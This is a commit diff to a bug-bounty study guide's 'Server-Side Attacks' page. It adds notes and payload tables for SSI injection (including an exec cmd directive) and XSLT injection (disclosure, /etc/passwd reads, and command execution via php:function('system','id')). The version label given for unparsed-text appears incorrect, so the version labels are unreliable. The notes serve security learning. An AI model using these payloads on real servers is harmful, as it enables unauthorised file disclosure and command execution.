

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/server-side-attacks.md, in a window 1280 px wide and 1400 px high, scrolled down 4022 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
finish server side attacks page

````diff
--- a/docs/bug-bounty-guide/server-side-attacks.md
+++ b/docs/bug-bounty-guide/server-side-attacks.md
@@ -1,6 +1,6 @@
 # Server-Side Attacks
 
-## SSRF
+## Server Side Request Forgery (SSRF)
 
 [OWASP SSRF Page](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/)
 
@@ -72,7 +72,7 @@ We can use [Gopherus](https://github.com/tarunkant/Gopherus) to craft these payl
 - Local port scan may work by comparing error messages, but error message may be the same for closed ports/other services that are open.
 - LFI attempts may show different error messages for files that exist versus files that don't.
 
-## SSTI
+## Server Side Template Injection (SSTI)
 
 ### Tepmlate engines
 
@@ -127,18 +127,46 @@ python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell # Obtain
 ```
 
 
-## SSI Injection - Directives
+## Server Side Includes (SSI) Injection - Directives
+
+- Typical SSI file extensions include .shtml, .shtm, and .stm (can be configured for arbitrary file extensions).
+- SSI utilizes directives to add dynamically generated content to a static HTML page.
+- Occurs when an attacker can inject SSI directives into a file (usually in the web root directory) that is subsequently served by the web server.
 
 | Directive | Description |
 |-----------|-------------|
-| `<!--#printenv -->` | Print variables |
-| `<!--#config errmsg="Error!" -->` | Change config |
-| `<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->` | Print specific variable |
+| `<!--#name param1="value1" param2="value" -->` | Directive format |
+| `<!--#printenv -->` | Print the environment variables |
+| `<!--#config errmsg="Error!" -->` | Change config (the error message in this example) |
+| `<!--#echo var="DOCUMENT_NAME" var="DOCUMENT_URI" var="LAST_MODIFIED" var="DATE_LOCAL" -->` | Print specific variable |
 | `<!--#exec cmd="whoami" -->` | Execute command |
-| `<!--#include virtual="index.html" -->` | Include web file |
+| `<!--#include virtual="index.html" -->` | Include web file (only allows files in the web root directory) |
 
-## XSLT Injection
+## eXtensible Stylesheet Language Transformation (XSLT) Injection
+
+- [Documentation](https://www.w3.org/TR/xslt-30/)
+- XSLT can be used to define a data format which is subsequently enriched with data from the XML document.
+- Similar structure to XML.
+- It contains XSL elements within nodes prefixed with the xsl-prefix
+- Example:
+
+```xslt
+<?xml version="1.0"?>
+<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
+	<xsl:template match="/fruits">
+		Here are all fruits of medium size ordered by their color:
+		<xsl:for-each select="fruit">
+			<xsl:sort select="color" order="descending" />
+			<xsl:if test="size = 'Medium'">
+				<xsl:value-of select="name"/> (<xsl:value-of select="color"/>)
+			</xsl:if>
+		</xsl:for-each>
+	</xsl:template>
+</xsl:stylesheet>
+```
+
 ### Elements
+
 | Element | Description |
 |---------|-------------|
 | `<xsl:template>` | Indicates an XSL template. Can contain a match attribute that contains a path in the XML-document that the template applies to |
@@ -148,22 +176,30 @@ python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell # Obtain
 | `<xsl:if>` | Used to test for conditions on a node. The condition is specified in the test argument |
 
 ### Injection Payloads
+
+- `<` Test payload to see if an error message is returned.
+
 #### Information Disclosure
+
 | Payload | Description |
 |---------|-------------|
-| `<xsl:value-of select="system-property('xsl:version')" />` | |
-| `<xsl:value-of select="system-property('xsl:vendor')" />` | |
-| `<xsl:value-of select="system-property('xsl:vendor-url')" />` | |
-| `<xsl:value-of select="system-property('xsl:product-name')" />` | |
-| `<xsl:value-of select="system-property('xsl:product-version')" />` | |
+| `<xsl:value-of select="system-property('xsl:version')" />` | Version |
+| `<xsl:value-of select="system-property('xsl:vendor')" />` | Vendor |
+| `<xsl:value-of select="system-property('xsl:vendor-url')" />` | Vendor URL |
+| `<xsl:value-of select="system-property('xsl:product-name')" />` | Product name |
+| `<xsl:value-of select="system-property('xsl:product-version')" />` | Product Version |
+
+**Tip:** Pass all the above payloads in one go separated by `<br/>` for formatting.
 
 #### LFI
+
 | Payload | Description |
 |---------|-------------|
-| `<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />` | |
-| `<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />` | |
+| `<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />` | LFI for XSLT v1.0 |
+| `<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />` | LFI for XSLT v2.0 |
 
 #### RCE
+
 | Payload | Description |
 |---------|-------------|
-| `<xsl:value-of select="php:function('system','id')" />` | |
+| `<xsl:value-of select="php:function('system','id')" />` | RCE if the XSLT processor supports PHP functions |
````
